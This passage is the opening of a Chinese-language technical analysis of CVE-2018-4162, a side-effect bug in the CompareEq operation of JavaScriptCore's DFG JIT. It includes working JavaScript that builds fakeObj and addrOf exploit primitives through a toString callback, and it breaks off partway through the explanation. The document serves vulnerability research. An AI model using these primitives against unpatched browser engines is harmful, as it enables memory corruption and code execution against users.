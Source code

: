 ```yaml
---
title: CVE-2018-4162 CompareEq side effect
---
```


### 一、从ZDI文章开始

2018年4月，ZDI发表了《INVERTING YOUR ASSUMPTIONS: A GUIDE TO JIT COMPARISONS》，描述了JavaScriptCore DFG JIT中CompareEq IR的副作用问题。通过TenSec2018的ppt，可以知道这个漏洞编号为CVE-2018-4162。

从文章给出的补丁上看，这显然是一个副作用问题：

![image-20190119120611015](CVE-2018-4162 CompareEq side effect.assets/image-20190119120611015.png)

```javascript
function primitiveFakeObj(addr) {
    let arr = [1.1, 2.2, 3.3];
    arr['a'] = 1;
    let go = function (a, c) {
        a[0] = 1.1;
        a[1] = 2.2;
        c == 1;
        a[2] = addr;
    }
    for (let i = 0; i < 100000; i++) {
        go(arr, {});
    }
    go(arr, { toString: () => { arr[0] = {}; return '1'; } });
    return arr[2];
}
let addr = 5.607070584648226e-310;
let fakeObj = primitiveFakeObj(addr);

function primitiveAddrOf(obj){
    let arr = [1.1, 2.2, 3.3];
    arr['a'] = 1;
    let go = function (a, c) {
        a[1] = 2.2;
        c == 1;
        return arr[0];
    }
    for (let i = 0; i < 100000; i++) {
        go(arr, {});
    }
    return go(arr, { toString: () => { arr[0] = obj; return '1'; } });
}
let o = {};
let addrOfO = primitiveAddrOf(o);
print(addrOfO);
```

c == 1会触发一些回调，回调的内容就是{toString: () => { arr[0] = {}; return '1'; }}这个对象的toString函数。本次DFG代码中的回调调用了baseline JIT中的operationCompareEq：
